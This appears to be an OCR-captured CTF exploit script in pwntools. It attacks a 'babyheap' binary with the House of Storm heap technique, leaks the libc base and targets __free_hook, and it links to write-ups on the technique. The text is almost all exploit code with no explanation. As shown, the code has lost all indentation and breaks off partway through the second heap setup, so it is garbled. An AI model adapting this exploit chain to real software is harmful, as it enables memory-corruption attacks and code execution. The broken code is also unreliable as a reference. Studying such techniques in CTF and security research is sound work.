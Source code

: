# exp
```python
from pwn import *
def cmd(c):
p.sendlineafter(": \n",str(c))
def add(size):
cmd(1)
p.sendlineafter("ize: ",str(size))

def edit(idx,c):
cmd(2)
p.sendlineafter("dex: ",str(idx))
p.sendafter("tent: ",c)
def free(idx):
cmd(3)
p.sendlineafter("dex: ",str(idx))
def show(idx):
cmd(4)
p.sendlineafter("dex: ",str(idx))
context.arch='amd64'

libc=ELF("./libc-2.23.so")
#p=remote("123.206.174.203",20001)

p=process('./babyheap')
#House of Storm
add(0x500)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)#0
edit(0,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x2d8)#1
add(0x88)#3
add(0x48)#5
free(4)
show(5)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc.address=base
log.warning(hex(base))
#get libc base
add(0x458+0x90)#4
#clear main_arena

aim=libc.sym['__free_hook']
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
add(0x500)#6
add(0x88)#7
add(0x88)#8
free(6)
add(0x18)#6
edit(6,"A"*0x18)
add(0x88)#9
add(0x88)#10
free(9)
free(7)
add(0x2d8)#7
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()